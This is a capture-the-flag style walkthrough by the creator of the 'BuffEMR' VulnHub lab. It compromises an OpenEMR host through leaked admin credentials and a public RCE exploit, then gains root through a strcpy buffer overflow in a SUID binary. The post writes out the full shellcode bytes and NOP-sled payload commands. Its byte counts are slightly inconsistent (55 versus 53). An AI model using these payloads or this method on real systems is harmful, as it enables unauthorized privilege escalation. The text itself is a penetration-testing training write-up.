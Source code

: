 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```


![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something :

![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds : 

![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

![](/images/2021-12-01-BuffEmr/5.png)

Now we have access and we know the version.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

![](/images/2021-12-01-BuffEmr/6.png)


![](/images/2021-12-01-BuffEmr/7.png)

Now we have access to the box:

![](/images/2021-12-01-BuffEmr/8.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

![](/images/2021-12-01-BuffEmr/9.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

![](/images/2021-12-01-BuffEmr/10.png)


![](/images/2021-12-01-BuffEmr/11.png)

The zip file contains the password which can be used to ssh as buffemr:

![](/images/2021-12-01-BuffEmr/12.png)


The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:


![](/images/2021-12-01-BuffEmr/13.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory :


![](/images/2021-12-01-BuffEmr/14.png)


![](/images/2021-12-01-BuffEmr/15.png)


I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.

![](/images/2021-12-01-BuffEmr/16.png)


Maybe, we will try to over flow the buffer to run a shell code to get root !

We will use gdb for this:

![](/images/2021-12-01-BuffEmr/17.png)

The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:

After few tries, I found out that 516 is the magic number:

![](/images/2021-12-01-BuffEmr/18.png)


Now, we need a shell code:

[shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:

#![](/images/2021-12-01-BuffEmr/19.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 53 = 459.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 459 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s):


#![](/images/2021-12-01-BuffEmr/20.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :

#![](/images/2021-12-01-BuffEmr/21.png)



Now we can access the root flag as we escalated our privilege :


#![](/images/2021-12-01-BuffEmr/22.png)



